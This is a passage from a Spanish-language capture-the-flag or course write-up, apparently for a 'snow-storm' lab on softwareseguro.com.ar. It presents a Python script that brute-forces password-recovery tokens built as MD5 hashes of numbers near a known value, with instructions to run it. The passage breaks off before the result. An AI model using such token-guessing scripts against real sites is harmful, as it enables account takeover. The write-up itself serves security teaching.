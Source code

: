 ![](images/snowStorm/recuperacionClaveJuan.png)

Para generar y verificar los hashes aledaños a nuestro token y verificarlo, utilizamos un *script* en python.

``` python
import hashlib
import requests
import sys
from concurrent.futures import ThreadPoolExecutor

RANGO = 200

def probarToken(dominio, numero):
    token =  hashlib.md5(str(numero).encode()).hexdigest()
    response = requests.get(f"http://{dominio}/recovery?t={token}")
    if "¿Olvidaste tu contraseña?" not in response.text:
        print(f"[X] Encontrado. N: {numero}. Token:{token}")

if __name__ == '__main__':
    posiblesNumeros = {x for x in range(int(sys.argv[2])-RANGO,int(sys.argv[2])+RANGO)} - {int(sys.argv[2])}
    with ThreadPoolExecutor(max_workers=100) as executor:
        executor.map(lambda x: probarToken(sys.argv[1], x), posiblesNumeros)
```

>Nota: Se debe ejecutar con el siguiente formato: `python script.py chl-xxxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx-snow-storm.softwareseguro.com.ar <número obtenido del hash>`, completando con la url de su instancia y el número que obtuvieron de crackstation en el paso anterior.

Tras ejecutar el script obtenemos el siguiente resultado.
